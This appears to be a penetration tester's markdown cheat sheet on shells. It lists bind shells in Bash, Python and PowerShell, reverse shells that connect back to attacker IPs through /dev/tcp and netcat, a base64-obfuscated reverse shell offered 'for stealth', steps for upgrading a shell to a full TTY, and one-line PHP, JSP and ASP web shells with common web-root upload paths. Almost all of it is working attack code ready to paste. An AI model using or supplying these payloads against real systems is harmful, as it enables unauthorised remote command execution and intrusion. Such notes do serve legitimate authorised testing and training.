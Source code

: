 Bind shell = target is listening  
Reverse = attacker is listening

# Overview
![[Shells-Explained.png]]

[https://www.revshells.com/](https://www.revshells.com/)

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Reverse Shell Cheat Sheet: PHP, Python, Powershell, Bash, NC, JSP, Java, Perl (highon.coffee)](https://highon.coffee/blog/reverse-shell-cheat-sheet/)


# Bind Shells
Useful for external pen tests
## Bash
```bash
# Common bind shells
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

## Python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
## Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Test
# Reverse Shells
## Bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```
1. `bash -c` starts a new Bash shell and passes a command (helps stabilize shell)
2. `bash -i` launches an interactive bash shell
3. `>&` redirects stdout/stderr to the same destination
4. `/dev/tcp/ipaddress/port` creates a TCP socket as a file
5. `0>&1` redirects `stdin` to the same destination as `stdout`

For stealth, pipe the above to `base64 -w0`, then:
```bash
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjQuMTg1LzQ0NDQgMD4mMScK | base64 -d | bash 2>/dev/null
```


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

## PowerShell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

# Upgrading TTY
[Upgrading Simple Shells to Fully Interactive TTYs - ropnop blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
[Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
## python-stty method
Once reverse shell is caught in a `netcat` listener:
```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```
Then hit `CTRL+Z` to background reverse shell. On local attacker machine:
```shell
stty raw -echo
```
Then use `fg` to re-enter reverse shell.

The reverse shell may not stretch to fit. To fetch terminal type and dimensions:
```shell
# Attacker machine
echo $TERM
stty size

# target
export $TERM=[output of echo]
stty rows [output of stty size] columns [output of stty size]
```

# Web Shells
| Common upload locations |                         |
| ----------------------- | ----------------------- |
| Apache                  | `/var/www/html`         |
| Nginx                   | `/usr/local/nginx/html` |
| IIS                     | `c:\inetpub\wwwroot`    |
| XAMPP                   | `c:\xampp\htdocs`       |
## PHP
```php
<?php system($_REQUEST["cmd"]) ?>
```
## JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
## ASP
```asp
<% eval request("cmd") %>
```

